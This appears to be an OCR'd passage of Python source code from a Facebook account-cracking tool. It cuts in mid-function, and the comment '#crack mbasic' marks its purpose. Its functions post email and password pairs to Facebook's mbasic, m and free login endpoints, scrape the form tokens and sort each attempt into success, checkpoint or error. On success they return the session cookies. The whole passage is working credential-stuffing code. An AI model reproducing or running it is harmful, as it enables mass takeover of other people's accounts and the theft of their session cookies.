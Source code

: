 			else:
				data.update({i.get("name"):""})
		else:
			data.update({i.get("name"):i.get("value")})
	data.update(
		{"fb_dtsg":meta,"m_sess":"","__user":"0",
		"__req":"d","__csr":"","__a":"","__dyn":"","encpass":""
		}
	)
	r.headers.update({"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8"})
	po=r.post("https://mbasic.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
	if "c_user" in r.cookies.get_dict().keys():
		return {"status":"success","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	elif "checkpoint" in r.cookies.get_dict().keys():
		return {"status":"cp","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	else:return {"status":"error","email":em,"pass":pas}#crack mbasic
def mfb(em,pas,hosts):
    global ua,mfb_h
    r = requests.Session()
    r.headers.update(mfb_h)
    p = r.get('https://m.facebook.com/')
    b = bs4.BeautifulSoup(p.text, 'html.parser')
    dtg = ('').join(bs4.re.findall('dtsg":\\{"token":"(.*?)"', p.text))
    data = {}
    for i in b('input'):
        if i.get('value') is None:
            if i.get('name') == 'email':
                data.update({'email': em})
            elif i.get('name') == 'pass':
                data.update({'pass': pas})
            else:
                data.update({i.get('name'): ''})
        else:
            data.update({i.get('name'): i.get('value')})

    data.update({'fb_dtsg': dtg, 'm_sess': '', '__user': '0', '__req': 'd', 
       '__csr': '', '__a': '', '__dyn': '', 'encpass': ''})
    r.headers.update({'referer': 'https://m.facebook.com/login/?next&ref=dbl&fl&refid=8'})
    po = r.post('https://m.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100', data=data).text
    if 'c_user' in r.cookies.get_dict().keys():
        return {'status': 'success', 'email': em, 'pass': pas, 'cookies': r.cookies.get_dict()}
    else:
        if 'checkpoint' in r.cookies.get_dict().keys():
            return {'status': 'cp', 'email': em, 'pass': pas, 'cookies': r.cookies.get_dict()}
        else:
            return {'status': 'error', 'email': em, 'pass': pas}

        return
def free(em,pas,hosts):
	global ua,free_h
	r=requests.Session()
	r.headers.update(free_h)
	p=r.get("https://free.facebook.com/")
	b=bs4.BeautifulSoup(p.text,"html.parser")
	meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
	data={}
	for i in b("input"):
		if i.get("value") is None:
			if i.get("name")=="email":
				data.update({"email":em})
			elif i.get("name")=="pass":
				data.update({"pass":pas})